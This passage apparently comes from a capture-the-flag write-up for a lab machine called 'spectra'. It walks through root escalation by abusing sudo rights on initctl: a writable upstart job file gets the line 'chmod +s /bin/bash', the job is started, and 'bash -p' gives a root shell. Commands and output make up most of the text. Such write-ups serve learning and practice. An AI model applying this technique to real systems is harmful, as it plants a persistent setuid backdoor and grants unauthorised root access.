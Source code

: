 ```php
katie@spectra ~ $ id
uid=20156(katie) gid=20157(katie) groups=20157(katie),20158(developers)
```

Exploiting the sudo permissions on this with file write is trivial. The only thing we have to do is to add our code we want to run as root at the top of the script block in the job configuration file.

```php
katie@spectra ~ $ vi /etc/init/test.conf
```

We will in this case choose to give bash the suid bit on starting the job.

```php
description "Test node.js server"
author      "katie"

start on filesystem or runlevel [2345]
stop on shutdown

script
	chmod +s /bin/bash
    export HOME="/srv"
    echo $$ > /var/run/nodetest.pid
    exec /usr/local/share/nodebrew/node/v8.9.4/bin/node /srv/nodetest.js

end script

pre-start script
    echo "[`date`] Node Test Starting" >> /var/log/nodetest.log
end script

pre-stop script
    rm /var/run/nodetest.pid
    echo "[`date`] Node Test Stopping" >> /var/log/nodetest.log
end script
```

Now we run the job with sudo permissions.

```php
katie@spectra ~ $ sudo /sbin/initctl start test          
test start/running, process 7364
```

Looking at bash, it has now the suid bit set and we can easily drop into a rootshell and collect the flag.

```php
katie@spectra ~ $ ls -la /bin/bash
-rwsr-sr-x 1 root root 551984 Dec 22  2020 /bin/bash
katie@spectra ~ $ /bin/bash -p
bash-4.3# wc -c /root/root.txt 
33 /root/root.txt
bash-4.3#
```
